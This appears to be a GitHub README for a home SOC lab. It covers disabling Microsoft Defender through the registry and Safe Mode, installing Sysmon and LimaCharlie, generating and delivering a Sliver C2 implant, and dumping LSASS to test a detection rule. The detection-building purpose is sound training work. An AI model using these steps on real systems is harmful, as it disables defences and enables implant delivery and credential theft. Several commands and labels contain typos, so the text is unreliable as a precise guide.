# Home-SOC-Lab-Build-Simulate-Detect

Lab Components
 - Windows (Host) – Your own Windows machine

 - Windows VM – Target machine for testing

 - Linux VM (Ubuntu) – Attack server

## 1. Disable Defender on Windows VM
Step 1 – Turn Off from Windows Security
1. Go to Windows Security > Virus & threat protection settings.
2. Toggle off:
  - Real-time protection
  - Cloud-delivered protection
  - Automatic sample submission
  - Tamper Protection

    

Step 2 – Disable via Group Policy
1. Press `Win + R`, type `gpedit.msc`, and press **Enter**.
2. Go to:
Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
3. Open **Turn off Microsoft Defender Antivirus** → Set to **Enabled** → Apply → OK.

   

Step 3 – Disable via Registry

 **Cmd (administrator)** type : 

`REG ADD "hklm\software\policies\Microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f` 
.

   

 
Step 4 – Boot into Safe Mode
1. Run msconfig.exe.
2. Under Boot, check Safe boot (Minimal) → Apply → OK → Restart.

   

Step 5 – Disable Services in Safe Mode

1. Open Registry Editor (`regedit`).

2. Modify the `Start` value to 4 (Hexadecimal) for the following keys:
  - `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WdBoot` 
  - `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WinDefend`
  -	`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WdNisDrv`
  -	`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WdNisSvc`
  -	`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WdFilter` 

    

Step 6 – Return to Normal Boot
  -	In `msconfig.exe`, uncheck **Safe boot** and restart.

---

## 2. Install Sysmon on Windows VM

Open **Windows PowerShell (Administrator)** 

Step 1 – Download Sysmon :

`Invoke-WebRequest - Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip`

Step 2 – Extract Files :

`Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon`

Step 3 – Download Sysmon Config :

`Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml`

Step 4 – Install Sysmon :

`C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml`

---

## 3. Install LimaCharlie Agent

Step 1 – Create Organization in LimaCharlie.io

1. Log in to LimaCharlie.io.
2. Create a new organization → Add sensor → Windows → Name: Windows VM Lab.

   

Step 2 – Download and Install Agent

1. Select the `x86-64.(exe)` sensor and hold on first.

 	 
   
2. On the Windows VM, download:

	`https://downloads.limacharlie.io/sensor/windows/64`

   

3. In Command Prompt (Admin):
   1. `cd C:\Users\User\Downloads`
   2. `hcp_win_x64_release_4.33.13 -i <installation_key>`
      
      copy installation_key

    

After installing the Limacharlie the webpage will appear "Detected new sensor!"

   

Step 3 – Enable Sysmon Log Collection

1. Go to your organization in LimaCharlie → Sensors → Artifact Collection → Add Rule.

  - Name: `windows-sysmon-logs`

  - Platforms: `Windows`

  - Path Pattern: `wel://Microsoft-Windows-Sysmon/Operational:*`

  - Retention: `10 days`
    
    

    

---

## 4. Set Up Attack System (Sliver C2)

Step 0 – Identify Network Details
1. On the Ubuntu VM, switch to root `sudo su`.
2. Check the network interface name and IP `ip a`.
   
In this example:

   - Interface: `ens33`

   - IP Address: `192.168.137.132/24` (assigned via DHCP — may change later)

Tip: Write down your interface name and IP address; you’ll need them multiple times.

   

3. Check the VM’s gateway:

bash

"ping _gateway -c 1"

   

Step 1 – Set Static IP on Ubuntu

Edit the Netplan config:

bash

`sudo nano /etc/netplan/00-installer-config.yaml`

Example:

yaml

    network:
    ethernets:
     ens33:
       dhcp4: no
       addresses: [192.168.137.132/24]
	   gateway4: 192.168.2.2
	   nameservers:
	 addresses: [8.8.8.8,8.8.4.4]
    version: 2 

   

Apply and verify:

bash

- `sudo netplan apply`
- `ping 8.8.8.8`

   

Step 2 – SSH into the Ubuntu VM from Windows

From Windows (Admin Command Prompt):

cmd

`ssh user@[Linux_VM_IP]`

   

Switch to root:

bash

`sudo su`

Step 3 – Install Sliver

bash:

Download Sliver Linux server binary
`wget https://github.com/BishopFox/sliver/releases/download/v1.5.32/sliver-server_linux -O /user/local/bin/sliver-server`

Make it executable
`chmod +x /usr/local/bin/sliver-server`

Install mingw-w64 for additional capabilities
`apt install -y mingw-w64`

Create and enter our working directory
`mkdir -p /opt/sliver`

---

## 5. Start Command & Control Session

On Windows 

Step 1 – Launch Sliver Server

`sliver-server`

   

Step 2 – Generate Payload

`generate --http [Linux_VM_IP] --save /opt/sliver`

   

**Take note the output file will randomized name.**

Check implant list:

`implants`

   

Exit Sliver:

bash

`exit`

Step 3 – Transfer Payload to Windows VM

On Windows:

bash

`cd /opt/sliver`

`python3 -m http.server 80`

On Windows (Admin PowerShell):

powershell

`IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe`

   

---

## 5. Command and Control Session

On Windows:

1. Stop Python server (`Ctrl+C`).

2. Start Sliver:

	`sliver-server`

	`http`

    
   

3. Return Windows VM and execute C2 payload from download location using administrative PowerShell prompt we had from before

poweshell

`C:\Users\bside\Downloads\NEAT_PUFFIN.exe`

4. After connect, you should see your session check in on Sliver server.

   

5. On Windows verify your session in Sliver 

bash

`sessions`

   

6. To interact with your new C2 session, type following command into Sliver shell

bash

`user [session_id]`

   

7. Run some basic commands:

`bash`
`info`
`whoami`
#privileges
`getprivs`

   

Examine network connections occurring on the remote system
netstat

   

---

## 6.Observe EDR Telemetry in LimaCharlie
Step 1 – Identify the Malicious Process
1. In LimaCharlie, go to Sensors and select the Windows sensor

   

2. In the left-hand menu, click Processes.
Look for the suspicious process `NEAT_PUFFIN.exe` and note the source IP address.

    

3. Check the Network tab — you should also see `NEAT_PUFFIN.exe` appearing in network connection logs.

    

Step 2 – Search for Suspicious Activity
1. Open the Timeline view.
2. Filter for the event type:

`SENSITIVE_PROCESS_ACCESS`

3. Select any matching event where the system is accessing `lsass.exe` — this is often used for credential dumping.
   
    
   
Step 3 – Create a Detection & Response (D&R) Rule
1. Click Build D&R Rule.
   
   

2. In the Detect section, replace all contents with:
   
`event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe`

3. In the Respond section, replace all contents with:
` - action: report
  name: LSASS access`

   

Step 4 – Test the Detection
1. From your Sliver server console, run:

`procdump -n lsass.exe -s lsass.dmp`

   

2. Go to LimaCharlie → Detections and confirm the `LSASS access` report appears.

    

## 🎥 Demo Video

https://youtu.be/BpEzajA3SKw
